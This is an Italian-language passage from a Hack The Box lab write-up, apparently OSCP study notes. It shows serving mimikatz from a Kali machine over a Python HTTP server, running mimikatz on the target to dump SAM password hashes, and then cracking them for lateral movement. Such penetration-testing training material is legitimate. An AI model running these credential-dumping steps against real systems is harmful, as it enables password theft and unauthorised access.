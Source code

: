 ![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat4.png)e ci siamo 

Il prossimo passo è imporatare [Mimikatz](Note/Tool/Mimikatz.md) ed estrarre gli hash 
ci copiamo mimikatz.exe nella nostra directory e attiviamo un server python

```shell-session 
┌──(root㉿kali)-[/home/kali/htb/jerry]
└─# ls
mimikatz.exe

┌──(root㉿kali)-[/home/kali/htb/jerry]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

ora da ci apriamo un PowerShell e importiamo mimikatz sulla macchina target

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat5.png)

ci apriamo una console cmd da Administrator ed eseguiamo mimikazt
ed eseguiamo quanto segue 

```cmd
privilege::debug
token::elevate
lsadump::sam
```

nello specifico :

- `privilege::debug`  : da il permsso a mimikatz di accedere e manipolare risorse di sistema normalmente limitate 
- `token::elevate`   : mimikatz cerca di assumere l'identità di amministratore, consentendo ad un utente che non ha i privilegi di amministratore di eseguire operazioni con privilegi elevati
- `lsadump::sam`   :  estrae il database di Security Account Manager (SAM) che contiene gli hash delle password degli utenti 


questo ci permetterà di estrarre gli hash dal SAM

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat6.png)

che possiamo andare a rompere con [[hashcat]] o [hashes.com](https://hashes.com/en/decrypt/hash) trovando cosi la nostra password

Questo esercizio può dimostrare come possiamo estrarre gli hash anche di altri utenti consentendoci magri di fare lateral moviment  in un rete.




